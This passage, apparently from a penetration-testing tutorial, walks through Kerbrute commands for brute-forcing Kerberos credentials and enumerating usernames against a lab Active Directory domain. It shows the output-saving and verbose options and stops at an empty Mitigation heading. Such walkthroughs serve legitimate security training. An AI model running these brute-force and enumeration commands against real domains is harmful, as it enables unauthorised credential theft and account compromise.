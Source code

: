 ![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj7XkOO4g3hBSMd9wu3IxHzHp5p0IOrM0UmqpqpChiMteIDVUn3Tc3UgQQVUVgHY_3r2lAvXbubRPtsqYrYXn54pTluwSQQaz3x8Q-QvWNxtlIiQ3K2dkjKNcVRYmOhIn70N5nzPWIU1NR969x7RiNhU7h3th2BhwVYCxMNdJnU3u-Ov-nuoLgsCBv2tg/s16000/10.png?w=640&ssl=1)

cat userpass.txt | ./kerbrute\_linux\_amd64 --dc 192.168.1.19 -d ignite.local bruteforce -

cat userpass.txt | ./kerbrute\_linux\_amd64 --dc 192.168.1.19 -d ignite.local bruteforce -

```
cat userpass.txt | ./kerbrute_linux_amd64 --dc 192.168.1.19 -d ignite.local bruteforce -
```

![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjvMzUTPXUWyucloFIC4yStqV2ajzotDMlPhd_HQdxFkvKQEIoDdxhw5x1d7spCeyoXp0MiaFPwityy_WP4NsLUX7aM1Sx_RZU2UxBMo_APr4GZOEKj5Jzf5TFxgh1-W_ONRjGX6UeGkJI4scs-40RIuKNiFVcjw_4PnnA--H4lTgzaLq-9ut4p-qb18w/s16000/11.png?w=640&ssl=1)

### Saving Output

Saving output is always healthy whether we are solving CTF or in real-world engagements. If we save the output, then we do not have to run the command again and again to check the results. Also, it is beneficial, especially in a real-world project where we have to provide output to our clients in the penetration testing reports. We can save the output of our findings using the **\-o flag** providing the output file name. In this example, we have saved the output as result.txt. To reproduce the proof of concept, follow the below command where we append the -o flag in the previously used command.

./kerbrute\_linux\_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -o result.txt

./kerbrute\_linux\_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -o result.txt

```
 ./kerbrute_linux_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -o result.txt
```

**![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj_zmGuTvFbs_v2n_w-_xHP3HgB-J9nDOdUvSjqALHm80CYNZF5wd69rsXvFDvuHhAB5z21WfsZziBugvq3tzAaiiUNrCa-P7TL7sEMc_pdT96fhOFbp9l1Hb83QUmd3Mf6gUdISJPuwtZa3qDK8PMcJAfq__D7KWXgC26voTUfYwIFD8boUFiInZC7gw/s16000/12.png?w=640&ssl=1)**

### Verbose mode

We can also use verbose mode using the **\-v flag** in our command. Verbose features give us insight into the tool with each user account. Here in the below example, we can see that when kerbrute is unable to verify the Kerberos account, it is showing user does not exist. In this example, we are attempting to perform username enumeration by using the same command we used during the username enumeration phase by appending **\-v** flag to get a verbose result. To reproduce the proof of concept, feel free to test the below command.

./kerbrute\_linux\_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -v

./kerbrute\_linux\_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -v

```
./kerbrute_linux_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt -v
```

![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgkQA3rOhKWO7zX7DrSZPtW_3RUFZPGBkRna3CWuWWgB7RbSxZXbiCflytQKkfTdcCQp_UJmhzkUIV2vO8tnssF9XUcPNkgevcYOTi9Hj8V3D10fEKEXvcSc3KFfR8Fv65Z7qEsoVrhSOovqArE5PMJZ4dTj0cX7aX79b2Q9gKJIZdteVyLnxK-ZhFKXQ/s16000/13.png?w=640&ssl=1)

### Mitigation

There are multiple factors and ways which can help to harden the system.
